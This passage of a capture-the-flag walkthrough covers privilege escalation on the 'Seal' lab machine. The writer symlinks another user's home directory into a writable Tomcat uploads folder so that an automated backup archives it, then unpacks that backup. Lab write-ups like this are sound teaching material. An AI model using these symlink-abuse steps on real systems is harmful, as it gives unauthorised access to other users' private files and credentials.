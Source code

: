 ### Exploit

In order to exploit this, I'll need to look for something I can write in
the Tomcat web directory. The `uploads` folder works:



    tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ find . -writable
    ./uploads



The most straight forward way to abuse this is to get access to files as
luis, the user who is running this playbook. I'll create a symlink to
luis' home directory in the uploads folder:



    tomcat@seal:/$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/



The next backup is larger:



    tomcat@seal:/$ ls -l /opt/backups/archives/
    total 15784
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:55 backup-2021-09-04-07:55:32.gz
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:56 backup-2021-09-04-07:56:33.gz
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:57 backup-2021-09-04-07:57:33.gz
    -rw-rw-r-- 1 luis luis   608916 Sep  4 07:58 backup-2021-09-04-07:58:33.gz
    -rw-rw-r-- 1 luis luis 13721600 Sep  4 07:59 backup-2021-09-04-07:59:32.gz



I'll copy it into `/dev/shm`, and examine it:



    tomcat@seal:/dev/shm$ file backup-2021-09-04-07:59:32.gz 
    backup-2021-09-04-07:37:32.gz: gzip compressed data, was "backup-2021-09-04-07:37:32", last modified: Sat Sep  4 07:37:40 2021, max compression, original size modulo 2^32 141936640



Running `gunzip` on it makes a tar archive:



    tomcat@seal:/dev/shm$ gunzip backup-2021-09-04-07\:37\:32.gz 
    tomcat@seal:/dev/shm$ file backup-2021-09-04-07\:37\:32 
    backup-2021-09-04-07:37:32: POSIX tar archive



If I try to run `tar xf` on this file, it fails:



    tomcat@seal:/dev/shm$ tar xf backup-2021-09-04-07\:59\:32 
    tar: Cannot connect to backup-2021-09-04-07: resolve failed



That's actually because `tar` treats the `:` as signifying that the part
before it is a hostname it should be connecting to. I can fix this by
renaming it without a `:`, or giving it the `--force-local` flag.
